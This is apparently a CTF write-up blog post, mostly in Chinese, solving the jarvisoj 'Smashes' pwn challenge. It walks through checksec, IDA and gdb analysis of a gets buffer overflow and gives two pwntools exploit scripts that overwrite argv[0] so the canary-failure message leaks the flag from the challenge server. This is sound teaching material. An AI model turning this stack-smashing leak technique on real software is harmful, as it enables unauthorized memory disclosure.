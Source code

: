 ```yaml
---
layout:     post
title:      jarvisoj Smashes
author:     wooy0ung
tags: 		  pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Problem Description:  
>Smashes, try your best to smash!!!  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/smashes.44838f6edd4408a53feb2e2bbfe5b229  
>  
>Address:  
>nc pwn.jarvisoj.com 9877  
<!-- more -->


### 0x00 file命令查看文件是64位elf格式

```
file smashes
```

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-smashes/0x00.png)

### 0x01 checksec之，发现开了Canary

```
checksec smashes
```

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-smashes/0x01.png)

### 0x02 在kali linux 2.0中执行程序
```
chmod a+x ./smashes
./smashes
```

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-smashes/0x02.png)

### 0x03 执行文件放到IDA中分析

_IO_gets函数存在溢出漏洞

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-smashes/0x03.png)

计算argv[0]到缓冲区的距离，0x218个字节

```
gdb ./smashes
b *0x0040080e
find /root
find 0x7fffffffe673
distance $rsp 0x7fffffffe3d8
```

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-smashes/0x04.png)

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-smashes/0x05.png)

查找发现flag存在0x400d20这个地址

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-smashes/0x06.png)

观察__libc_message源码，需要将LIBC_FATAL_STDERR置为非空，才能收到错误信息，否则会被redirect到_PATH_TTY

```
void __libc_message (int do_abort, const char *fmt, ...)
{
  va_list ap; 
  int fd = -1; 
  va_start (ap, fmt);
  /* Open a descriptor for /dev/tty unless the user explicitly
     requests errors on standard error.  */
  const char *on_2 = __libc_secure_getenv ("LIBC_FATAL_STDERR_");
  if (on_2 == NULL || *on_2 == '\0')
    fd = open_not_cancel_2 (_PATH_TTY, O_RDWR | O_NOCTTY | O_NDELAY);
  if (fd == -1) 
    fd = STDERR_FILENO;
  /*......*/
}
```


### 0x04 根据以上信息写成exploit

稳定版的exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
old_flag_addr = 0x600d20
new_flag_addr = 0x400d20
# Io = process('./smashes')
Io = remote('pwn.jarvisoj.com', 9877)
Io.recvuntil("name?")
payload = "a"*0x218 + p64(new_flag_addr) 
payload += p64(0) + p64(old_flag_addr)
Io.sendline(payload)
Io.recvuntil("flag: ")
env = "LIBC_FATAL_STDERR=1"
Io.sendline(env)
flag = Io.recv()
print flag
```

强行将一大片地址填充为flag的地址，不一定每次都能得到flag
```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
context.log_level = 'debug'
# Io = process('./smashes')
Io = remote('pwn.jarvisoj.com', 9877)
Io.recv()
Io.sendline(p64(0x0400d20)*300)
Io.recv()
Io.sendline()
Io.recv()
```

得到flag

![](/assets/img/writeup/pwn/2017-06-15-jarvisoj-smashes/0x07.png)
